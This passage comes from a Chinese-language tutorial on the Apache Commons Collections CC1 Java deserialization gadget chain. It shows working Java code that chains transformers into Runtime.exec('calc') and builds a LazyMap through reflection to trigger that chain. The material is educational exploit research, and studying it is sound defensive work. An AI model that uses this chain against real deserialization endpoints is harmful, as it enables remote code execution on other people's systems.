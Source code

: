 ```java
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

在Java 8u71以后的版本中，由于 sun.reflect.annotation.AnnotationInvocationHandler 发⽣了变化导致不再可⽤，

#### Lazymap类的利用

JDK1.7

回到上面，已经构造的链子如下：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
```

cc1里面用到了 Lazymap#get 这个方法：

![1](/img/299.png)

如果这里的 factory 可控，那么调用任意类的 transform 方法了，然后就需要寻找什么地方调用到了get方法，

这里的 factory 并没有被 transient 以及 static 关键字修饰，所以是我们可控的，并且由于 factory 是在类初始化时定义的，所以我们可以通过创建 LazyMap 实例的方式来设置他的值。

![1](/img/300.png)

但它的构造方法不是 public ，所以需要反射来获取该构造方法，再实例化该类

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        LazyMap map = (LazyMap)constructor.newInstance(innermap,chain);
        map.get(123);
```
